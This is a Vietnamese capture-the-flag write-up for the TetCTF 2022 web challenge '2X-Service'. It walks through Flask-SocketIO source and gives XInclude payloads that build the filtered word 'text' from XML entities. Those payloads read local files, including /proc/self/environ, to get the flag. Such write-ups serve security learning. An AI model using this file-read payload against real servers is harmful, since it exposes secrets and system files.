 ```yaml
---
title: TetCTF 2022 | Web Exploitation | 2X-Service
date: 2022-01-01-19:33:00 0700
---
```


# 2X-Service

![2x-service](https://user-images.githubusercontent.com/82533607/147850702-16a63ccc-ba1d-4543-81ac-4aa052659960.png)

## Source code & analysis

### Source code:

Đây là source code của `app.py`:

```python
import random
import os
from flask import Flask, render_template, render_template_string, url_for, redirect, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)

app.config['SECRET_KEY'] = 'XXXXXXXSECREKTXXXXXXXX'
socketio = SocketIO(app)

@app.route('/')
def index():
	return redirect(url_for('dashboard'))


@app.route('/dashboard')
def dashboard():
	return render_template('./dashboard.html')

@app.route('/source')
def source():
	return render_template('source.html')

@app.route('/about')
def about():
	return render_template('about.html')


@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')


@socketio.on('my event')
def handle_my_custom_event(json):
	print('received json: ' + str(json))

if __name__ == '__main__':
	socketio.run(app, host='0.0.0.0', port=8003)
```

### Analysis

Ở bài này sử dụng websocket thông qua `flask-socketio`, nhìn qua source code của `/dardboard` ta thấy có `jquery` và `socketio` được import sẵn, nhưng chưa khởi tạo `socket`:

```html
<link rel="stylesheet" href="static/css/tsu.css">
<script src="static/js/jquery.min.js"></script>
<script src="static/js/socket.io.js"></script>
<script src="static/js/tsu.js"></script>


<meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <div class="header">
    <a href="#default" class="logo">2X-Service</a>
    <div class="header-right">
      <a class="active" href="/">Home</a>
      <a href="/source">Source</a>
      <a href="/about">About</a>
    </div>
  </div>

<body>

<br><br>
<center>
	<div class="form" >
	    <label>XPATH</label><br>
	    <input type="text" id="xpath" placeholder="Ex: attribute"><br>

	    <label>XML</label>
	    <textarea type="text" id="xml" rows="25" placeholder="Ex:&#10;<person>&#10;<name>tsu</name>&#10;<attribute>deptrai</attribute>&#10;</person>" ></textarea>
	  
	    <input type="submit" id="process" value="Process">
	</div>
</center>
```

Vì vậy, để gửi được request từ client đến socket tại server, ta cần thiết lập socket, sau khi đọc qua doc của `flask-socket`, mình đã tạo ra đoạn code `jquery` như sau:

```js
// Define the socket
socket = io()
// Connect to server's socket
socket.connect('http://207.148.119.136:8003')
// Test connection:
socket.on('connect', function() {
    socket.send('hello?', 'hi')
    console.log(socket.connected)
})
// Listen to response, then log to console
socket.on('result', function (data) {
    console.log(data);
});
// Submit form's content to server's socket
$('.form').submit(function(){
    socket.send($('#xpath').val(), $('#xml').val())
})
```

Test thử xem sao:

![socket_connected](https://user-images.githubusercontent.com/82533607/147850835-c6220de1-ba84-482b-b38f-da04f3c15ecc.png)

Vậy là đã xong phần socket, bây giờ cần phân tích source code một chút, cụ thể là phần `message`:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

## Exploit

Đọc qua thì sẽ thấy phần này khá giống bài [X-Service](https://dauhoangtai.github.io/ctf/2021/11/13/WRITEUP-SVATTT-FINAL-2021-WEB.html#challenge-x-service) của vòng chung kết SVATTT 2021.

Ta có thể sử dụng payload sau:

```xml
<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="path_of_the_file" parse="text"/>
</document>
```

Nhưng có một vấn đề là, `text` bị filter, sau khi đọc qua doc của [xi:include](https://www.w3.org/TR/xinclude-11) thì mình nhận ra rằng, chẳng có `parser` nào có thể giải quyết vấn đề này, vì vậy, chỉ còn cách làm thế nào để `text` xuất hiện mà không bị filter.

Thực ra mọi chuyện khá đơn giản, chúng ta có thể dùng phương pháp `concat` như sau:

- Đầu tiên, define 2 biến `te` và `xt` thông qua `ENTITY`

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>
```

- Tiếp theo, sử dụng 2 biến đó:

```xml
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

> &te;&xt; <=> "te" + "xt" = "text"

Và ta có payload hoàn chỉnh:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

Sử dụng `xpath = *`, đầu tiên, thử trên local xem sao?

![test](https://user-images.githubusercontent.com/82533607/147851083-50c4ca78-6545-44eb-a839-51b320ac056b.png)

OK, vậy là payload hoạt động tốt, vậy thử trên server xem sao?

![test_server](https://user-images.githubusercontent.com/82533607/147851133-1ca3f3c1-3383-49ff-9735-fa62e78fe437.png)

Oh, vậy là file `flag.txt` có thể không tồn tại, vậy là nó nằm ở đâu?

Sau một hồi "fuzzing bằng cơm" thì tôi vô tình tìm thấy được flag tại `/proc/self/environ`:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="/proc/self/environ" parse="&te;&xt;"/>
</p>
</document>
```

![flag](https://user-images.githubusercontent.com/82533607/147851230-9c48d2de-6d3e-44f0-a123-6e741fcbc1bd.png)

Flag: `FLAG=TetCTF{Just_Warm_y0u_uP_:P__}`

> Từ sáng đến tối chỉ để giải được 1 bài web duy nhất 😞
